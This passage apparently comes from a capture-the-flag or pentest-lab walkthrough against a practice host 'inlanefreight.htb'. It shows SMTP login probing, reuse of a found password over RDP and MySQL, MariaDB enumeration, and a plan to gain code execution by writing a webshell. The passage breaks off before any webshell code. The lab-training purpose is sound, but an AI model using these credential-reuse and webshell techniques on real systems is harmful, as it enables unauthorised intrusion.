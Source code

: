     HELO inlanefreight.htb

    AUTH LOGIN

    # submit base64-encoded username and password when prompted

    HELP
    # we do not have much capabilities here
    ```
  
  * We can check for cred reuse:

    ```sh
    xfreerdp /u:fiona /p:987654321 /v:10.129.203.7 /d:inlanefreight.htb
    # does not work

    mysql -u fiona -h 10.129.203.7 -p
    # the same password works for MySQL however
    ```
  
  * Enumerating MariaDB:

    ```sh
    show databases;
    # we have 5 DBs, we can check each of them

    use test;

    show tables;
    # empty set

    use phpmyadmin;

    show tables;
    # check all tables

    # check other databases too
    ```
  
  * We do not have any creds left in any of the tables in MySQL. However, we can try to get RCE from here

  * From the webserver, the PHPinfo page shows that the configuration file is located at ```C:\xampp\php\php.ini``` - we can try to [write a webshell accordingly](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#mysql-commands):
